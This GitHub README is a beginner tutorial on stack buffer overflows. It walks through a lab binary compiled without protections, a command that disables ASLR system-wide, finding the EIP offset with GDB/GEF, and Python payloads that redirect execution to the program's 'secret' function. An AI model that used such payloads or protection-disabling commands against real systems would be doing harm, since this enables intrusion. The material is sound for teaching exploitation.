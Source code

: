 # BufferOverflow

### A buffer overflow occurs when a program writes more data to a buffer (a memory area) than it can handle. This can overwrite important data and, in some cases, allow an attacker to execute malicious code.

![buof](https://github.com/user-attachments/assets/3d8a435a-c7b6-4119-920d-7dd348a57bd7)

## How it happens:

-Buffer: A reserved area in memory for storing data.

-Overflow: If the program does not check the size of the data, it can overwrite adjacent memory areas.

## Consequences:

-Data corruption and program crashes.

-Execution of malicious code if an attacker exploits the vulnerability.

## Prevention:

-Validate data sizes.

-Use safe functions.

-Implement protections like ASLR and DEP.


# Introduction to Buffer Overflow: Invoking Functions via Buffer Overflows

To begin, we'll explore how a buffer overflow can be exploited to invoke a specific function within a program. This process involves manipulating memory to redirect the program's execution flow to a desired function.

To practice this buffer overflow case, we will use a C program called `secret.c` and compile it with the following command:

```bash
gcc -g -fno-stack-protector -z execstack -m32 secret.c -o secret
```

Address Space Layout Randomization (ASLR) is a security technique that randomizes memory addresses to protect against certain attacks. 

To check if ASLR is active for our binary `secret`:

```bash
ldd secret
```

![bof1](https://github.com/user-attachments/assets/b9b05657-b76e-42f0-be63-0a7759525270)

ASLR is set to 2 by default. To disable ASLR for easier buffer overflow exploitation, run:
```bash
sudo sh -c 'echo 0 > /proc/sys/kernel/randomize_va_space'
```
This change will persist until the next reboot.


The binary `secret` prompts for user input with the message "Input your data:". When the input exceeds the expected number of characters, it triggers a segmentation fault due to a buffer overflow. This occurs because the program does not properly handle or validate the input size, causing it to overwrite adjacent memory areas.

![bof2](https://github.com/user-attachments/assets/e125c018-af9f-452f-9b70-f674d8443765)


To perform the buffer overflow, we will use GDB with GEF (GDB Enhanced Features).
You can find the GEF repository at: https://github.com/hugsy/gef

To run the binary with GDB, use the command:
```bash
gdb ./secret
```

To determine the offset (how many A's you need to input to reach and overwrite the EIP), we will use the command pattern create:

```bash
pattern create
```

![bof3](https://github.com/user-attachments/assets/082c49a1-9cee-42c8-937e-0754cef063f0)

Generate a pattern of characters that we can use to determine the offset when running the program. Instead of using just a series of A's, we’ll run the program with this character pattern.

We would run it with:

```bash
r <<< 'character_pattern'
```
The `<<<` operator is used to provide a string directly as input to a command or program.

Now we can determine how many characters are needed to reach the EIP using the following command:

```bash
pattern offset $eip
```

![bof4](https://github.com/user-attachments/assets/efc4ef08-fe89-4867-ae3e-94fde127d566)

In this case, the offset is 76, so we can run the following command to verify that the characters are correct and that we will overwrite the EIP with the value BBBB:

```bash
r <<< $(python3 -c 'print("A"*76 + "B"*4)')
```

The **EIP** (Extended Instruction Pointer) is a CPU register that tracks the address of the next instruction to execute, and in a buffer overflow attack, overwriting it allows you to control the execution flow by redirecting it to your chosen code or exploit.

![bof5](https://github.com/user-attachments/assets/678690d1-cab5-4ae4-bf91-ee8b46e88df7)

Additionally, the `checksec` command in GDB checks security features like `NX (No Execute)` protection, which prevents code from running in certain memory regions. It helps you see which security mechanisms are active for a binary.

![bof6](https://github.com/user-attachments/assets/1979e547-2ef8-48ce-89b9-6f41f73d450b)

In our case, we want to execute the function named `secret` that is within the binary. To achieve this, we’ll use the command `p secret` to get the address of the `secret` function. We can then overwrite the EIP with this address to redirect execution to the `secret` function.

```bash
p FUNCTION_NAME
```

![bof7](https://github.com/user-attachments/assets/d9084be8-73a6-403f-8efa-37d090c98736)

Now, we need to format the address in **little-endian** (e.g., `0x080484b6` as `\xb6\x84\x04\x08`) because systems store multi-byte values in this order, ensuring the function is executed correctly.

In our case it will be: 0x5655619d -> \x9d\x61\x55\x56

We will now create the payload using `sys.stdout.buffer.write()` instead of `print()` because it writes the data as raw bytes, ensuring that each byte is preserved exactly as needed. This is crucial for accurately overwriting the EIP with the correct memory address, especially when handling non-printable characters in the exploit.

Next, we'll execute the binary with our crafted payload using the command:

```bash
./secret $(python3 -c 'import sys; sys.stdout.buffer.write(b"A"*76 + b"\x9d\x61\x55\x56")')
```

This command runs the `secret` binary while injecting the payload directly, aiming to overwrite the EIP with the address of the `secret` function.

![bof8](https://github.com/user-attachments/assets/8cb7ccb8-7d12-4270-b767-9bd6c8cb6e26)

As a result, the function was executed, printing the message "You have exploited the buffer overflow!" before the program crashed with a segmentation fault.

You can also save the payload in a Python script and execute it when running the `secret` binary, simplifying the injection process.

```python3
import sys

secret_func_address = b'\x9d\x61\x55\x56'
payload = b'A' * 76 + secret_func_address

sys.stdout.buffer.write(payload)
```

![bof9](https://github.com/user-attachments/assets/52f80186-b3d2-4e3d-a361-28f8dbb49a01)

